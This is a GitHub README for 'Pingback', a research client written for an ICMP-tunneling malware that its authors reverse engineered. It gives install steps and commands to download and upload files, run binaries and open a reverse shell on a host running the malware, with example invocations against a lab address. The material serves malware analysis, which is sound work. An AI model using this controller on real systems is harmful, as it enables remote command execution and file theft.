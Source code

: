 # Pingback

This is a client for a malware that we found and reversed engineered that uses ICMP tunneling techniques to evade detection.
The VirusTotal report for this malware can be found here: https://www.virustotal.com/gui/file/e50943d9f361830502dcfdb00971cbee76877aa73665245427d817047523667f/detection

## Installation

### Linux

Currently only tested on Linux, as scapy sniffer didn't work correctly on Windows for us.

`pip3 install -r requirements.txt`

## Usage

```
Usage: pingback.py [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  download   Downloads file from remote using mode 1.
  download3  Downloads file from remote using mode 3.
  exep       Execute binary on remote host
  shell      Run shell on remote host, this will tell the remote to connect...
  upload2    Uploads a file to the remote host using mode 2.
```

## Simple Usage Examples

This requires obviously a target running the malware. e.g. if malware was running on 192.168.176.131 to run a shell on the target:

`$ python3 pingback.py --host 192.168.176.131`

This will listen on a random port on the local machine, send an icmp message to the target host with instructions to connect back to the local machine and random port, and establish a shell.

`$ python3 pingback.py download --host 192.168.176.131 --remote_file c:\\windows\\system32\\win32calc.exe --local_file calc.exe`

## Demo

A demo has been made by my colleague @drole
[here](https://www.youtube.com/watch?v=OlzgEVk3dig)


## Authors and acknowledgement

Lloyd Macrohon <jl.macrohon@gmail.com>
Rodel Mendrez <rmendrez@trustwave.com>
